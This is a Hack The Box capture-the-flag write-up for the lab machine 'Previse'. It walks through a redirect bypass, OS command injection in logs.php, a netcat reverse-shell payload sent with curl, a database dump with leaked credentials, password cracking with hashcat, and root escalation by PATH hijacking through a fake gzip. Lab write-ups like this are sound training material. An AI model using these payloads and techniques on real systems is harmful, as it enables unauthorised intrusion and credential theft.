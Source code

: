 ```yaml
---
title: "📦 HTB - Previse"
date: 2021-08-11 13:00:00
summary: ""
tags: ["htb", "writeup"]
categories: ["HTB"]
author: "0xNinja"
resources:
- name: "featured-image"
  src: "featured-image.png"
---
```


## TL;DR

Bypass PHP redirect to access restricted page, create low priv web account, get website backup. Audit code and find OS command injection + MySQL creds, get reverse shell and dump database, get password hash and crack it to SSH. Privesc via path injection.

## Footholds

`nmap` gives us only ports `22` and `80`.

We first get this website:

![index](index.png)

Nothing we can deal with here, no SQL injection :(

![login](login_failed.png)

For more info I used `dirsearch` to fuzz the web pages, and it found the following:

```
/accounts.php
/download.php
/files.php
/login.php
/logout.php
/logs.php
/status.php
```

## User

All with `302 Found` HTTP code, with a redirect towards `/login.php`. With that much info we want to get the content of those pages. To do so I used BurpSuite and made a filter to replace `HTTP/1.1 302 Found` with `HTTP/1.1 200` which worked like a charm, but using only `curl` would also work.

We now have access to the previous pages. In order to download a file you must have a valid `PHPSESSID`, so you want to create your own user on `/accounts.php`. Log in again with your fresh accounts and you can access to the `siteBacku.zip` file at `/files.php`.

In this backup we have multiple files, including a nice `config.php` containing MySQL credentials; we will use it in a minute. We also have the code for the whole webapp. One file caught my attention:

```php
// logs.php
[...]

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

[...]
```

Whatever this means, there is no filter at all for this `$_POST['delim']` variable, therefor we can easily inject some command here. As confidant as always I open a netcat listener on my machine, and inject my payload like so:

```sh
curl -X POST previse.htb/logs.php -b 'PHPSESSID=MY_VALID_SESSION' -d 'delim=;nc IP PORT -e /bin/sh'
```

As expected I got my reverse shell 🎉

Let's upgrade from this poor virgin netcat to a chad upgrade:

```sh
# on reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
(www-data@previse.htb) /var/www/html/: ^Z # Ctrl-Z to background

# on main host
~/ctf/htb/previse
> stty raw -echo; fg

(www-data@previse.htb) /var/www/html/:
```

We now have a better shell, with history and completion. Time to get user!

With the previous info we can directly dump the database:

```sh
mysql -u root -p 'mySQL_p@ssw0rd!:)' -D previse -e 'select * from accounts;'
```

Like so we get a password hash for an another user: `m4lwhere:$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`, we crack it using `hashcat` because `john` did not worked:

![hash](hash_crack.png)

```sh
hashcat -m 500 user_hash /usr/share/wordlist/rockyou.txt
# wait for about 15 minutes...

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

We can SSH on the box.

## Root

```
(m4lwhere@previse.htb): sudo -l

(root) /opt/scripts/access_backups.sh
```

```sh
# /opt/scripts/access_backup.sh

gzip -c /var/www/apache_logs.gz ...
```

The path for the `access_backup.sh` is absolute, but not for `gzip` in the script. We can then create our own `gzip` executable which will run with `root` rights:

```sh
# /tmp/gzip
#!/bin/sh
cat /root/root.txt > /tmp/root
```

We change our path with `export PATH="/tmp/:$PATH"` and execute the script with sudo:

`cd /tmp; sudo /opt/scripts/access_logs.sh`

![Rooted](rooted.png)
